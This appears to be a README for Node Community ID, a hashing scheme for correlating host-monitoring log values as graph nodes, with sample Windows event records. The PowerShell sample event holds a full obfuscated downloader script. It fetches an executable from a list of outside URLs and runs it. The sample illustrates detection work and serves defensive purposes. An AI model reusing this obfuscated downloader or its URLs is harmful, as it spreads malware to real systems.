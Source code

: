 # Node Community ID

In local host monitoring, a lot of data points cannot be shared and used to compare with other data points.
When collecting large dataset and building graph, it's becoming a tedious task to find pivot or correlating
points. There are many application, system (e.g. sysmon, proprietary EDR) which are logging in different
format. The node community ID is providing a unique identifier to quickly find pivot points or correlating
values in large dataset. The node community ID is simple hashing describing the type of hashed values and
the xxhash of the concatenated values. The node community ID (NCID) can used as graph node.

# Format

`NCID-<TYPE>-<XXHASH>`

# NCID Type

|Value|Description                        |Example             |
|:---:|:---------------------------------:|:------------------:|
|1    |protocol:ip_dst:port               |udp:8.8.8.8:53      |
|2    |eventkey:value                     |MethodName:GetServerAutoReconnectInfo|
|3    |channel:eventkey:value             |Microsoft-Windows-PowerShell/Operational:ScriptBlockText:...:

# Sample EVT with interesting NCID

### NCID 2

The NCID is a generic community id which can use to map key:value for interesting common values without
knowing in advance the key.


```json
{
  "Provider_Name": "Microsoft-Windows-RemoteDesktopServices-RdpCoreTS",
  "Provider_Guid": "{1139c61b-b549-4251-8ed3-27250a1edec8}",
  "Provider": null,
  "EventID_Qualifiers": "",
  "EventID": "72",
  "Version": "0",
  "Level": "4",
  "Task": "4",
  "Opcode": "13",
  "Keywords": "0x4000000000000000",
  "TimeCreated_SystemTime": 1566996775,
  "TimeCreated": null,
  "EventRecordID": "1576",
  "Correlation_ActivityID": "{f4203a82-a3ed-4a64-86f8-cd9a9fba0000}",
  "Correlation_RelatedActivityID": "",
  "Correlation": null,
  "Execution_ProcessID": "396",
  "Execution_ThreadID": "3216",
  "Execution": null,
  "Channel": "Microsoft-Windows-RemoteDesktopServices-RdpCoreTS/Operational",
  "Computer": "MSEDGEWIN10",
  "Security_UserID": "S-1-5-20",
  "Security": null,
  "EventData_MethodName": "GetServerAutoReconnectInfo"
}
```

### NCID 3

```json
{
  "Provider_Name": "Microsoft-Windows-PowerShell",
  "Provider_Guid": "{a0c1853b-5c40-4b15-8766-3cf1c58f985a}",
  "Provider": null,
  "EventID_Qualifiers": "",
  "EventID": "4104",
  "Version": "1",
  "Level": "5",
  "Task": "2",
  "Opcode": "15",
  "Keywords": "0x0000000000000000",
  "TimeCreated_SystemTime": 1598411368,
  "TimeCreated": null,
  "EventRecordID": "683",
  "Correlation_ActivityID": "{ccad9034-7b61-0001-83cf-adcc617bd601}",
  "Correlation_RelatedActivityID": "",
  "Correlation": null,
  "Execution_ProcessID": "6620",
  "Execution_ThreadID": "6340",
  "Execution": null,
  "Channel": "Microsoft-Windows-PowerShell/Operational",
  "Computer": "DESKTOP-RIPCLIP",
  "Security_UserID": "S-1-5-21-2895499743-3664716236-3399808827-1001",
  "Security": null,
  "EventData_MessageNumber": "1",
  "EventData_MessageTotal": "1",
  "EventData_ScriptBlockText": "$Va5w3n8=(('Q'+'2h')+('w9p'+'1'));&('ne'+'w-'+'item') $eNV:teMP\\WOrd\\2019\\ -itemtype DIrectOry;[Net.ServicePointManager]::\"SecURi`T`ypRO`T`oCOL\" = ('t'+'ls'+'1'+('2, tl'+'s')+'11'+(', '+'tls'));$Depssu0 = (('D'+'yx')+('x'+'ur4g')+'x');$A74_j9r=('T'+'4'+('gf45'+'h'));$Fdkhtf_=$env:temp+(('{0}'+'word{'+'0}'+('2'+'01')+'9{0}') -F [CHAr]92)+$Depssu0+('.'+('ex'+'e'));$O39nj1p=('J6'+'9l'+('hm'+'h'));$Z8i525z=&('new-'+'obje'+'c'+'t') neT.WEbcLiENt;$Iwmfahs=(('h'+'ttp')+(':'+'//')+('q'+'u'+'anticaelectro'+'n'+'ic')+('s.com'+'/')+'w'+'p-'+'a'+('d'+'min')+'/'+'7A'+('Tr78'+'/*'+'htt')+('p'+'s:/')+('/r'+'e')+'be'+('l'+'co')+'m'+'.'+('ch/'+'pi'+'c')+('ture'+'_')+('l'+'ibra'+'ry/bbCt')+('l'+'S/')+('*ht'+'tp'+'s:/')+('/re'+'al')+'e'+'s'+('tate'+'a')+('gen'+'t')+'te'+('am.co'+'m')+'/'+('163/Q'+'T')+'d'+('/'+'*ht'+'tps:')+'//'+('w'+'ww.')+('ri'+'dd')+('hi'+'display.'+'c'+'o')+'m/'+'r'+'id'+'d'+('hi'+'/1pKY/'+'*htt')+'p'+(':'+'//')+('radi'+'osu'+'bmit.com/'+'sear')+('ch_'+'tes'+'t')+'/'+'p'+('/*'+'h')+('ttp'+':/')+'/'+('res'+'e')+'ar'+('ch'+'c')+'he'+'m'+('plu'+'s.'+'c')+('om/w'+'p-')+('a'+'dmin')+'/1'+('OC'+'C')+'/'+('*http:'+'/')+('/s'+'zymo')+('ns'+'zyp')+'er'+('sk'+'i')+('.'+'pl/a')+'ss'+('ets/'+'p')+'k/').\"S`Plit\"([char]42);$Zxnbryr=(('Dp'+'z9')+'4'+'a6');foreach($Mqku5a2 in $Iwmfahs){try{$Z8i525z.\"d`OWN`load`FIlE\"($Mqku5a2, $Fdkhtf_);$Lt8bjj7=('Ln'+('wp'+'ag')+'m');If ((.('Get-I'+'t'+'em') $Fdkhtf_).\"le`NgTH\" -ge 28315) {cp (gcm calc).path $Fdkhtf_ -Force; .('Invo'+'ke'+'-Item')($Fdkhtf_);$Nfgrgu9=(('Qj6'+'bs')+'x'+'n');break;$D7ypgo1=('Bv'+('e'+'bc')+'k0')}}catch{}}$Gmk6zmk=(('Z2x'+'aaj')+'0')",
  "EventData_ScriptBlockId": "fdd51159-9602-40cb-839d-c31039ebbc3a",
  "EventData_Path": null
}
```
